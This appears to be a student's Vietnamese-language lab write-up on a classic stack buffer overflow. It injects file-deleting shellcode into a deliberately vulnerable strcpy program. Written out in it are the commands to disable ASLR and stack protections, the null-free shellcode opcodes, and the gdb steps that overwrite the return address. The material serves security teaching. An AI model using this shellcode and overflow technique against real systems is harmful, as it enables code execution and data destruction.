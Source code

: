 Lab 2:\
chạy docker:\
`docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab`
# Inject code to delete file: file_del.asm is given on github

### Ý tưởng:
1. Từ file_del.asm biên dịch thành file_del.o để chuyển thành chương trình file_del (thực thi được - executable file)
2. Chuyển đổi file_del thành opcode để chèn vào trong chương trình đối tượng: vuln.c
3. Quan sát cấu trúc stack của chương trình đối tượng vuln.c\
![target](/Week%202/img/target.png)\
   - Chương trình khai báo biến buf **tận 64 byte**, đủ lớn để chèn vào trong đó **một chương trình nhỏ**. Chương trình được chèn vào được chọn là chương trình được viết bằng *asm* thay vì *c* để giảm thiểu kích cỡ của chương trình hết mức.\
   - Chương trình vuln.c sử dụng strcpy để lấy dữ liệu là phương thức để truyền các dữ liệu vào.
4. Phân tích stack của chương trình đối tượng:
![stack](/Week%202/img/stack.png)\
   - Cả stack của hàm main có kích cỡ là 80 bytes (B)
   - Mục đich là chèn chương trình có *x bytes* | x <= 64(chưa xác định) vào trong *biến buf* rồi sau đó tạo stack overflow để ghi đè địa chỉ trả về (return address) để trỏ về con trỏ esp để chạy chương trình đã được chèn hiện đang lưu trữ trên cùng của stack.
   - Vì chưa xác định được kích cỡ của chương trình chèn vào nên đặt x, buf có 64B nên phần còn lại sẽ được chèn ký tự a (có thể thay bằng ký tự khác tuỳ ý) với kích cỡ là 1 ký tự tương đương 1B. Nghĩa là cần chèn vào 64 - x ký tự a.
![stack2](/Week%202/img/stack2.png) 
5. Biên dịch chương trình vuln.c thành vuln.out
6. Chèn opcode vào trong biến local của đối tượng để gây ra stack overflow từ đó chiếm quyền của chương trình và thực thi chương trình được chèn vào\
### Chuẩn bị môi trường:
1. Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên để tiện cho việc quan sát (hoặc có lỗi gây ra sẽ dễ fix hơn)\
`sudo sysctl -w kernel.randomize_va_space=0`
2. Biên dịch chương trình đối tượng bằng gcc cùng với các options:\
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`
   - `-fno-stack-protector` để tắt chế độ bảo vệ chèn dữ liệu ra ngoài stack (stack overflow)
   - `-z execstack` để cho phép thực thi chương trình được chạy trên stack
   - ` -mpreferred-stack-boundary=2` để khi biên dịch chương trình nhìn đẹp mắt hơn (maybe)
3. Tạo đường dẫn tới zsh thay vì sh (default) để tắt khả năng chống chương trình chạy tự động\
`sudo ln -sf /bin/zsh /bin/sh`
### Thực hiện:
1. Biên dịch chương trình mã máy file_del.asm thành file_del.o\
`nasm -g -f elf file_del.asm`\
![nasm](/Week%202/img/nasm.png)
2. Biên dịch chương trình file_del.out thành file_del để thực thi\
`ld -m elf_i386 -o file_del file_del.o`\
![ld](/Week%202/img/ld.png)
3. Disassemble chương trình file_del thể quan sát opcode và hợp ngữ của nó\
`objdump -d file_del`\
![objdump](/Week%202/img/objdump.png)
4. Quan sát opcode của chương trình file_del chúng ta có thể thấy nó xuất hiện nhiều giá trị như `00` và cả `0a`, đây là 2 giá trị sẽ làm chương trình dừng lại nên chúng ta cần xử lý nó.\
Note: Riêng giá trị `00` ở cuối chương trình không ảnh hưởng nên có thể loại bỏ hoặc không (vì dù gì đến đó chương trình cũng đã kết thúc)\
![warning](/Week%202/img/warning.png)
5. Chỉnh sửa mã nguồn của file_del.asm:
   - Thay đổi `mov eax, 10` thành `mov al 8` và `add al 2`\
   Mục đích là vì thanh ghi **eax** có tận **32 bits value** quá lớn để lưu trữ giá trị 10 nên sẽ sinh ra nhiều giá trị `00` nên chuyển sang sử dụng thanh ghi **al** có **8 bits value** sẽ tránh việc tạo ra nhiều giá trị `00` cũng có nghĩa là **null**
   Cùng với việc thay đổi từ lưu giá trị 10 thành lưu giá trị 8 rồi cộng thêm 2 để tránh tạo ra giá trị `0a`
   - Thay đổi `mov eax, 1` thành `mov al, 1` nhằm mục đích **hạn chế giá trị null như trên**\
![edited](/Week%202/img/edited.png)\
Sau đó biên dịch lại chương trình *file_del.nasm* tương tự như các [bước 2,3,4](#thực-hiện)
Kết quả sẽ như sau\
![after](/Week%202/img/after.png)
6. Chuyển đổi chương trình trên thành **opcode** để chuẩn bị cho bước chèn\
`for i in $(objdump -d file_del | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`\
![opcode](/Week%202/img/opcode.png)\
Lưu lại opcode ở đâu đó để sử dụng cho các bước sau. Và **nhớ loại bỏ phần `\xdummyfile.`** vì nó đã bị lặp lại ở trước đó và không tồn tại giá trị ký tự dài như vậy.\ 
`\xeb\x0f\xb0\x08\x04\x02\xbb\x76\x80\x04\x08\xcd\x80\xb0\x01\xcd\x80\xe8\xec\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`\
> Opcode trên có kích thước bằng với số lượng `\x` mà nó có **không bao gồm \x00**. Nghĩa là opcode trên có kích thước là *31*
7. Debug chương trình đối tượng:\
`gdb -q ./vuln.out`\
(P/s: -q Quite: không bla bla, chạy thẳng vào chương trình debug. Demo below:)
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeXJpxmMkO7CRmG2ujlw3q0bl5-C-7-bCeAthpYy647vSoBalh7vMqYkyfDH1iz8y3EFUQ-I2HYueWc_53A1InFdnDeEU7HNqPtC1ZJN72BEag9tTJpaY6PUOdHOyxmD7HaMPpAEQ_ICIjzM2GYHbNYDXsZ?key=x066aHYoH5XtbJjV6Ng-LQ)
8. Disassemble hàm main để đặt breakpoint trước và sau khi chạy lệnh strcpy\
`disas main`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcYlxdWE4UVH6SedLu89DPs-GroaWUuopIngFKqj0xDvsqaJ5m7DUXKRU0aT_1hVyLleCjuIPGfmwqn_4n3rM2aylOIuOXSf73LZuCpnYqVd7cGBYWigW50V8G7TnBijlhRfeJf4wlMrd_ca49oMZsnp84?key=x066aHYoH5XtbJjV6Ng-LQ)\
Đặt 2 breakpoint tại điểm 1 và 2.
- Lý do: 
   - Sau khi chương trình đã hoàn thành khởi tạo stack: push ebp vào stack, lưu esp = ebp, push biến khởi tạo (char buf[64]) vào trong stack (0x40 là 64 byte ở dạng thập lục)
   - Sau khi hoàn thành lệnh *strcpy* và đã giải phóng ebp và trở về return address **ra**
- Bằng lệnh:\
`b *0x08048441` và `b *0x0804846b`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfcFhn-XfQInCLengUwgWvn42hxTJqOEC39tR0Sn7WeenzLjGysWKm_F7p4FaKFBzgIX0UpohnEeUON8ngGr6n-aH2yZ6bGpz66D9Dv394yZRAn6HS1msc8Iwzyy2cNcX6io7an5Jdu2MEB1SiFhgsjptf9?key=x066aHYoH5XtbJjV6Ng-LQ)\
Extra: Kiểm tra breakpoint bằng `info breakpoint` và xoá breakpoint bằng lệnh `del [số thứ tự của breakpoint]`
9. Chạy debug chương trình vuln.out với giá trị đầu vào của argv[]\
![stack3](/Week%202/img/stack3.png)\
Cú pháp để chạy chương trình với dữ liệu đầu vào gây ra *stack overflow*\
> r $(python -c "print('[opcode]' + 'a' * [64 - sizeof(opcode) + 4] + '\xff\xff\xff\xff')") 

Cú pháp của bài hiện tại sẽ là:\
`r $(python -c "print('\xeb\x0f\xb0\x08\x04\x02\xbb\x76\x80\x04\x08\xcd\x80\xb0\x01\xcd\x80\xe8\xec\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65' + 'a' * 37 + '\xff\xff\xff\xff')")`\
![gdb1](/Week%202/img/gdb1.png)\
Chương trình sẽ dừng lại breakpoint 1.\
Dùng lệnh xuất ra 80B từ con trỏ esp để xem toàn cảnh stack\
`x/80xb $esp`\
![breakpoint1](/Week%202/img/breakpoint1.png)\
10. Dùng lệnh continue để lệnh strcpy được thực thi\
`continue`\
![gdb2](/Week%202/img/gdb2.png)\
tiếp tục kiểm tra stack sau khi lệnh strcpy đã thực thi\
![breakpoint2](/Week%202/img/breakpoint2.png)\
Nhưng chúng ta thấy, mọi thứ đề đã hoạt động đúng như dự kiến. Chương trình đã được chèn vào trong buf và đã xảy rả stack overflow khiến **ra** đa bị ghi đè thành `\xff\xff\xff\xff`.\
10. Chuyển **ra** thành địa chỉ của con trỏ $esp\
Bằng cách xác định vị trí của **ra** chúng ta có thể thay đổi giá trị của nó để trỏ về con trỏ **esp**\
`set *0xffffd70c = $esp`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdgt0gu7mi96W3WmpgToksMKLSphIEGoa6cRSIAsDUbp9pdOLapRxoZ_izqcJcED58sg5i6PQzZ6OZ8_9D1JO-Rd9JQVpqNq3hx3qrVIYivFzsfPux9ExR5c66cj_g4o9PKpPQT6aC0dDj-CIn0pcZPpeg?key=x066aHYoH5XtbJjV6Ng-LQ)\
11. Tiếp tục dùng lệnh `step` để xem từng bước kế tiếp để kiểm tra chương trình được chèn vào có thực thi không.\
![step1](/Week%202/img/step1.png)\
Từ đây chương trình main sẽ kết thúc và thực thi lệnh leave\
Step kế tiếp:\
![step2](/Week%202/img/step2.png)\
Chương trình đã chạy đến vị trí của con trỏ esp và trở lại trên đầu của stack cũng có nghĩa là stack overflow đã diễn ra.